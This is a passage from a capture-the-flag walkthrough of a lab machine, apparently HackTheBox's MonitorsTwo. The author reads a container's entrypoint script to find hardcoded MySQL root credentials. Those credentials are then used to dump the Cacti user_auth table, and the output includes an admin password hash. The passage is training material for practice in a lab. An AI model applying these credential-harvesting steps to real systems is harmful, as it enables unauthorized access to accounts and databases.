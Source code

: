 Usually at this point I would upload something like Linpeas, but circling back the output above, there is a file called __entrypoint.sh__ which is obviously not a common file to be in the root of the file system. This is most likely how we will escape the Docker container.

## Shell as Marcus

Concatinating the file gets us this bash script:

```bash
bash-5.1$ cat /entrypoint.sh
cat /entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```

Looking at this script shows that there is a mysql database installed on this container. In the __if statement__ block of the script, the second command is of interest. This command connects to the local mysql database and changes fields in the __user_auth__ table. This is most likely where credentials for users will reside. Running the following command returns hashed credentials for two users (*make sure to use the --vertical flag, it makes it so much easier to read the output*):

```bash
bash-5.1$ mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth" --vertical
er_auth" --verticalser=root --password=root cacti -e "SELECT * FROM use
*************************** 1. row ***************************
                    id: 1
              username: admin
              password: $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
                 realm: 0
             full_name: Jamie Thompson
         email_address: admin@monitorstwo.htb
  must_change_password: 
       password_change: on
             show_tree: on
             show_list: on
          show_preview: on
        graph_settings: on
            login_opts: 2
         policy_graphs: 1
          policy_trees: 1
          policy_hosts: 1
policy_graph_templates: 1
               enabled: on
            lastchange: -1
             lastlogin: -1
      password_history: -1
                locked: 
       failed_attempts: 0
```